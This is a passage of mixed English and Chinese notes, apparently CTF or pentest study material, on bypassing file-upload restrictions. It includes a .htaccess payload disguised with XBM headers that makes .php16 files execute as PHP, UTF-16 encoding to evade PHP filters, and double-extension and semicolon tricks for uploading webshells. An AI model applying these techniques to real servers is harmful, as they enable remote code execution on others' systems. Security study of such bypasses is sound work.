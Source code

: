 Ok but what is a xbm file ? Look at wikipedia my dear : https://en.wikipedia.org/wiki/X_BitMap
“In computer graphics, the X Window System used X BitMap (XBM), a plain text binary image format, for storing cursor and icon bitmaps used in the X GUI."
And there is an example :
```
#define test_width 16
#define test_height 7
static char test_bits[] = {
0x13, 0x00, 0x15, 0x00, 0x93, 0xcd, 0x55, 0xa5, 0x93, 0xc5, 0x00, 0x80,
0x00, 0x60 };
```

#### 修改 .htaccess 文件内容为

```
.htaccess
#define width 1337                          # Define the width wanted by the code (and say we are a legit xbitmap file lol)
#define height 1337                         # Define the height								     
																									 
# Say all file with extension .php16 will execute php
AddType application/x-httpd-php .php16         
# Active specific encoding (you will see why after :D)																									 
php_value zend.multibyte 1                    
# Detect if the file have unicode content
php_value zend.detect_unicode 1                            
# Display php errors|
php_value display_errors 1
```                                                      

### 4.3突破上传 .htaccess 文件前缀名为空限制 

更改为 ..htaccess

## 5.Bypass the anti-PHP protection

修改php文件编码 从utf8 变为utf16

## 6.Idiotic Regex filter bypass

using double extension like shell.jpg.php

## 7.by adding a semi-colon or colon character after the forbidden extension and before the permitted one

in IIS6 and previous version: "webshell.asp;.jpg".  in php: "webshell.php:.jpg"

# Exam-Solution

### 1. 文件后缀在客户端js验证, 
